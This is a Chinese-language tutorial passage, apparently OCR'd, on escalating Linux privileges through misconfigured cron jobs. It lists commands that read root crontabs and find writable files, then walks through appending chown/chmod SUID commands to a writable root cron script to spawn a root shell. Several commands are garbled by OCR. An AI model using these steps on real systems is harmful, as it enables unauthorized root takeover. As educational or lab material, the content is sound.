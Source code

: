 滥用 cron 的一个好方法是，

1. 检查 cron 运行的脚本的文件权限。如果权限设置不正确，则攻击者可能会覆盖文件并轻松获取 cron 中设置的用户权限。

2. 另一种方法是使用通配符技巧

**Cron**** 信息收集 **

一些基本命令收集一些线索，以使用错误配置的 cron 实现特权升级。

<table width="677"><thead><tr><th><strong>命令</strong></th><th><strong>结果</strong></th></tr></thead><tbody><tr><td>crontab -l</td><td>显示当前用户的 cron</td></tr><tr><td>ls -la /etc/cron*</td><td>显示计划的作业概述</td></tr></tbody></table>

具有特权的运行脚本，其他用户可以编辑该脚本。

**查找特权用户拥有但可写的任何内容：**

crontab -lls -alh /var/spool/cronls -al /etc/ | grep cronls -al /etc/croncat /etc/croncat /etc/at.allowcat /etc/at.denycat /etc/cron.allowcat /etc/cron.denycat /etc/crontabcat /etc/anacrontabcat /var/spool/cron/crontabs/root

**查看其他用户的** crontab

$ crontab -u tstark -l0 0  / jarvis / reboot-arc-reactor

如果服务器上有很多用户，那么可以在 cron 日志中看到详细信息，可能包含用户名。

例如，在这里我可以看到运行数据库备份脚本的 ubuntu 用户：

8 月 5 日 4:05:01 dev01 CRON [2128]：（ubuntu）CMD（/var/cronitor/database-backup.sh）

**使用** pspy ****工具（****32 ****位为**** pspy32****，****64 ****位为**** pspy64**）。**

下载链接：https://github.com/DominicBreuker/pspy

**利用配置错误的** cronjob ****获得**** root **访问权限**

$ ls -la /etc/cron.d –输出 cron.d 中已经存在的 cronjob

find / -perm -2 -type f 2> / dev / null –输出可写文件

ls -la /usr/local/sbin/cron-logrotate.sh –让我们确认 cron-logrotate.sh 是否可写。

### 我们知道 cron-lograte.sh 是可写的，它由 logrotate cronjob 运行。

那么我们在 cron-lograte.sh 中编写 / 附加的任何命令都将以 “root” 身份执行。

我们在 / tmp 目录中编写一个 C 文件并进行编译。

rootme 可执行文件将生成一个 shell。

```
$ ls -la rootme –它告诉我们它是由用户'SHayslett'拥有的

$ echo“ chown root：root / tmp / rootme; chmod u + s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh –这将更改可执行文件的所有者和组为root。它还将设置SUID位。$ ls -la rootme – 5分钟后，运行了logrotate cronjob，并以root特权执行了cron-logrotate.sh。$ ./rootme –生成一个root shell。

```

### Cron 脚本覆盖和符号链接
